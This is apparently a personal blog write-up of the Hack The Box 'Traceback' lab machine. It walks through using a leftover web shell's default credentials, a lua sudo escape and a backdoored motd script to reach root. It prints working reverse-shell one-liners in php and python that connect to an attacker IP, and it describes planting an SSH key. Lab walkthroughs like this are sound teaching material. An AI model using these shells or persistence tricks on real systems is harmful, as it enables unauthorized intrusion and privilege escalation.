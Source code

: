 ```yaml
---
title: Traceback
date: 2020-06-24
hero: /images/content/posts/hack-the-box/traceback.png
categories:
- hack-the-box
tags:
- windows
- reverse-shell
- lua
---
```


This machine was challenging, but I learned a lot. I learned how to make "smarter" shells and how to upload the `pspy` script to a remote server. I wonder if I could have completed this machine without adding my public ssh key, because at the moment it is very identifiable. It was a good box tho. I look forward to my next one.

## Tools

* nmap
* smevk.php
* lua
* ssh

## Recon

First things first, let's run our `nmap` scan. I used the command `sudo nmap -sS -sV -p- traceback.htb`.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 00:33 EDT
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.12s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 860.02 seconds
```

As usual with a htb machine there is a website being hosted, and it looks like the machine is pwned already. If we view the page source we can see the comment `<!--Some of the best web shells that you might need ;)-->`, so there might be a web shell some where. I am going to do a `ffuf` scan on the domain. The command I used is `ffuf -u http://traceback.htb/FUZZ -w /usr/share/dirb/wordlists/big.txt -e .html,.txt,.php,.xml`. 

That did not teach us anything new, but after googling some stuff about the author... considering that he signed the first page of the web site I found a repository that he forked called `Web-Shells`. So I created a wordlist with the files in that repo and after running the command `ffuf -u http://traceback.htb/FUZZ -w web_shell_wordlist.txt`, `ffuf` found the shell `smevk.php`, unfortunately it is locked behind a login screen.

## User

If we take a look at the source code for this shell in the [GitHub repo](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php) we can see that the default credentials are `admin::admin`. If we try them they work! Awesome so we got into the web shell.

Once we are in there is a field where we can execute a command. So let's create a reverse shell. First on our attacking machine use the command `nc -lvnp 1234`, then I used a `php` reverse shell because I know the server can run `php`. Here is the code I ran on the web shell `php -r '$sock=fsockopen("10.10.14.100",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`. Change the IP address to what is on the IPv4 section on the access page on the HTB web site.

In our shell we are the user `webadmin`, let's navigate to this user's home directory by using the command `cd /home/webadmin`. In here we see a note file that reads:

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

I found it by using `sudo -l`. It seems there is a file called `/home/sysadmin/luvit` that we should be able to run. After a quick google search it turns out that `luvit` can be used to run `lua` scripts.

```
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

We can get some code to spawn another shell from [here](https://gtfobins.github.io/gtfobins/lua/). We can create the script by `echo`ing the content of the script into a file in the `/tmp` directory then running the script with `sudo -u sysadmin /home/sysadmin/luvit script.lua`. Because when we did `sudo -l` we found out that we can run `luvit` as `sysadmin` without a password. Okay so here is what I did step by step:

First I navigated to the `/tmp` directory, then I echoed the following code into a file called `script.lua`.

```
os.execute("/bin/sh")
```

Then I executed the command `sudo -u sysadmin /home/sysadmin/luvit script.lua`. This throws us into another shell if we run `whoami` then we are the `sysadmin` user. But it is not that good looking, so let's try and make a new reverse shell from this user. I just used to command `nc -lvnp 9999` on my attacking machine then used the command `php -r '$sock=fsockopen("10.10.14.100",9999);exec("/bin/sh -i <&3 >&3 2>&3");'` from the ugly shell. There we go a better shell.

## Root

Now let's get root, but first I upgraded the shell again with the command `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Okay so I added my ssh public key to the `authorized_keys` file because I want to be able to reconnect fast if I mess up. This probably isn't advisable. This also allows me to `scp` `pspy` onto the machine to monitor the processes running. I notice that the files in the `/etc/update-motd.d` get replaced by there backups frequently. Let's check them out. It looks like we have permission to edit these files in the `update-motd.d` directory. Let's try and add some code and `ssh` into the `sysadmin` user to escalate privileges. This is a long shot, but here goes nothing.

First I started listening on my machine on port 9999 then I added the following code to the file `00-header`.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.100",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Next I had to `ssh` into the machine quickly before my script was over written. Once I `ssh` back into the machine as `sysadmin` this reverse shell was activated on my listening port. When I type `whoami`, I am `root`.
